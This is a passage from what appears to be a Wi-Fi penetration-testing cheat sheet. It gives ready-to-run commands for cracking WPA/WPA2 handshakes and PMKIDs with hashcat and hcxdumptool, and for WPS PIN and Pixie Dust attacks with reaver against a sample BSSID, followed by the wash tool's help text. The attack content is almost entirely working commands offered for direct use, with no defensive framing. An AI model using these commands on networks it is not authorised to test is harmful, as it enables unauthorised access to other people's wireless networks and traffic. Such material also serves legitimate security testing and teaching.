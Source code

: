 After entering the key you should see that the packets are then decrypted and viewable as they were not before. 

---

### WPA/WPA2 PMKID Attack [Using Hashcat]

```bash
# Crack with hashcat
hashcat -m 2500 handshake.hccapx wordlist.txt

hashcat -a 0 -m 2500 hostapd.hccapx ~/rockyou-top100000.txt --force

hashcat -m 2500 --deprecated-check-disable output.hccapx
 /usr/share/john/password.lst

hashcat -a 0 -m  {22000 or 2500}  hash.hc22000 /usr/share/john/password.lst

# Convert .cap to .hccapx for hashcat
cap2hccapx handshake.cap handshake.hccapx
```

```bash
# Capture PMKID
hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1
hcxpcapngtool -o pmkid.16800 -E essidlist.txt dump.pcapng

# Crack with hashcat
hashcat -m 16800 pmkid.16800 wordlist.txt
```

---

## 🧪 5. WPS Attacks [EAP messages]

The WPS process securely transmits the WPA or WPA2 passphrase over
wireless using EAP messages

```bash
# WPS scan
wash -i wlan0mon

# Reaver WPS attack
reaver -i wlan0mon -b <BSSID> -c <channel> -vv
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -vv

# Pixie Dust attack (if vulnerable)
reaver -i wlan0mon -b <BSSID> -c <channel> -K 1 -vv
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -vv -K
```

```bash
Wash v1.6.6 WiFi Protected Setup Scan Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner

Required Arguments:
        -i, --interface=<iface>              Interface to capture packets on
        -f, --file [FILE1 FILE2 FILE3 ...]   Read packets from capture files

Optional Arguments:
        -c, --channel=<num>                  Channel to listen on [auto]
        -n, --probes=<num>                   Maximum number of probes to send to each AP in scan mode [15]
        -O, --output-file=<filename>         Write packets of interest into pcap file
        -F, --ignore-fcs                     Ignore frame checksum errors
        -2, --2ghz                           Use 2.4GHz 802.11 channels
        -5, --5ghz                           Use 5GHz 802.11 channels
```